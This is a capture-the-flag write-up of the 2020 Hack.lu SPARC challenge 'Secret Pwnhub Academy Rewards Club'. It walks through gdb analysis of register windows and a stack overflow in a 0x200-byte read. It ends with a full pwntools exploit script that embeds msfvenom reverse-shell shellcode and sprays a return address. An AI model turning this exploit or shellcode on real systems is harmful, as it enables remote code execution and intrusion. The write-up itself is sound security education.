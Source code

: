 # 2020 Hack.lu CTF - Secret Pwnhub Academy Rewards Club

We are provided with an ELF SPARC executable, Dockerfile and several scripts so we can easily setup the environment.

Since I did not know anything about SPARC, I had to research on how SPARC works, what are the registers, etc. Since time was of the essence here, I did not dive deep into the whole SPARC architecture, but there were several things that I noted from the research:
- `%pc` is the equivalent of the instruction pointer
- there is a stack, `%sp` is the stack pointer (top) and `%fp` frame pointer (bottom)
- there are 8 different _in_ and _out_ registers `%o0`-`%o7` and `%i0`-`%i7`
- when calling a function the `%o7` register will store the return address before executing the function and afterwards swap it to the `%i7` register
- if the `%i7` register is already filled out, the current value of `%i7` register will get stored on the stack

This means that if there is a function call inside a function call the `%i7` register of the first function call will get stored on the stack which we may be able to overwrite making it jump to address of our choice.

## SPARC binary analysis

Execution will start with `_start` function that calls the `main` (`0x104b4`) via `libc_main` function:
```
gdb-peda$ x/48i _start
   0x100f0 <_start>:	mov  %g0, %fp
   0x100f4 <_start+4>:	sub  %sp, 0x18, %sp
   0x100f8 <_start+8>:	ld  [ %sp + 0x58 ], %o1
   0x100fc <_start+12>:	add  %sp, 0x5c, %o2
   0x10100 <_start+16>:	sethi  %hi(0x10400), %o0       <-- store 0x10400 in %o0
   0x10104 <_start+20>:	sethi  %hi(0x10000), %o3
   0x10108 <_start+24>:	sethi  %hi(0x1c400), %o4
   0x1010c <_start+28>:	or  %o0, 0xb4, %o0             <-- or 0x10400, 0xb4 = 0x104b4 <main>
   0x10110 <_start+32>:	or  %o3, 0xd4, %o3
   0x10114 <_start+36>:	or  %o4, 0x268, %o4
   0x10118 <_start+40>:	mov  %g1, %o5
   0x1011c <_start+44>:	call  0x14960 <__uClibc_main>  <-- calls func pointer in %o0
   ...
```

At this point we should observe the return address to `libc_main` in `%i7` register:

```
gdb-peda$ i r $pc
pc             0x104c4             0x104c4 <main+16>     <-- we are in main
gdb-peda$ i r $i7
i7             0x14c88             0x14c88               <-- return addr
gdb-peda$ x/4i 0x14c80
   0x14c80 <__uClibc_main+800>:	ld  [ %g1 ], %o2
   0x14c84 <__uClibc_main+804>:	ld  [ %fp + 0x44 ], %g1
   0x14c88 <__uClibc_main+808>:	call  %g1                <-- libc_main calls main
   0x14c8c <__uClibc_main+812>:	ld  [ %fp + 0x48 ], %o0
```

Function `main` will call another function named `setup`:

```
gdb-peda$ x/6i 0x104b4
   0x104b4 <main>:	std  %fp, [ %sp + 0x38 ]
   0x104b8 <main+4>:	add  %sp, -96, %sp
   0x104bc <main+8>:	sub  %sp, -96, %fp
   0x104c0 <main+12>:	mov  %o7, %i7
   0x104c4 <main+16>:	call  0x102a4 <setup>    <-- call here
   0x104c8 <main+20>:	nop 
```

When executing first 4 instructions in the `setup` function, this is what we expect:
- old `%i7` register value `0x14c88` is now on the stack
- new `%i7` register value is set to `0x104c4`

Here are the first 4 instructions:
```
gdb-peda$ x/4i $pc
=> 0x102a4 <setup>:	std  %fp, [ %sp + 0x38 ]
   0x102a8 <setup+4>:	add  %sp, -96, %sp
   0x102ac <setup+8>:	sub  %sp, -96, %fp
   0x102b0 <setup+12>:	mov  %o7, %i7
```

Let's verify:
```
gdb-peda$ x/4i $pc - 4
   0x102b0 <setup+12>:	mov  %o7, %i7
=> 0x102b4 <setup+16>:	sethi  %hi(0x2e000), %g1
   0x102b8 <setup+20>:	or  %g1, 0x130, %g1	! 0x2e130 <stdin>
   0x102bc <setup+24>:	ld  [ %g1 ], %g1
gdb-peda$ x/48wx $sp
0xffffe2a8:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe2b8:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe2c8:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe2d8:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe2e8:	0x00000000	0x000000b0	0x00000000	0x00031c7f
0xffffe2f8:	0x15010000	0x0011131a	0x00120f17	0x16000000
0xffffe308:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe318:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe328:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe338:	0x00000000	0x00000000	0xffffe368	0x00014c88   <-- observe value
0xffffe348:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffe358:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ i r $i7
i7             0x104c4             0x104c4
```

Bingo :)

## Vulnerability

Deeper analysis shows that `main` calls another function `fn` that performs the `read` function call. I disassembled the `fn` function with Ghidra and saw that the expected input length is `0x200`, this is also seen via assembly. The `fn` function checks the `%g1` register at `0x1045c` before jumping to the end of the function. The value of `alread_read` is checked against `0x200`. 

If we analyse the stack when executing the `fn` function, the stack pointer is set to `0xffffe228` and our `0x00014c88` value is stored on the stack at `0xffffe344` which would mean that we will be able to overwrite the stored register value since the input size allowed is 512 (`0x200`) bytes:

```
>>> 0xffffe344-0xffffe228
284
>>> 0x200
512
```

But where can we redirect execution? That one is solved from the start since the binary outputs the value of the (stack pointer + 8) when you run it.

## Exploitation

To quickly get to the flag, the idea was to write the payload first and then just spray the address to the rest of the memory while keeping the stack alignment in mind.

There was just one catch to this approach which I have noticed an hour after trying to redirect execution to the start of the stack - the first 4 bytes of the stack were changed by the binary while the `fn` function was executing. In order to overcome this, the final exploit idea was:

- write 4 bytes of junk
- write payload
- align the payload on the stack if needed
- spray the (start of stack address + 4) for the remaining available bytes

The payload used was `solaric/sparc/shell_reverse_tcp` with `127.0.0.1` and `1337` as parameters. This immediately spawned a shell within the program. I am still not sure why that happened. This worked both locally and against the remote server and that was good enough to get the flag. Maybe there is some kind of `execve` syscall in the payload somewhere which spawned the shell?

This is the finalized script:
```python
from pwn import *
from binascii import unhexlify

#  msfvenom -p solaris/sparc/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f hex
shellcode_hex = "9c2ba00798102001961ac00b941ac00b9210200290102002821020e691d02008d023bff8941020039210200994a2a0018210203e91d0200812bffffcd003bff821000081a0142139231fc000a2146001e03bbff09223a01094102010821020eb91d02008941ac00b210bd89aa014216e230bdcda9023a0109223a008e03bbff0d023bff8c023bffc8210203b91d02008"
shellcode = unhexlify(shellcode_hex)

context.arch = 'sparc'

r = remote('localhost', 4444)

addr_hex = r.recvline()[-5:-1]
print(addr_hex)

addr = b"\xff\xff" + p16(int(addr_hex, 16)-8+4)
payload  = b"\xff\xff\xff\xff"
payload += shellcode
payload += addr * (91) # ((0x200-144)/4)-1

r.sendline(payload)
r.interactive()
```

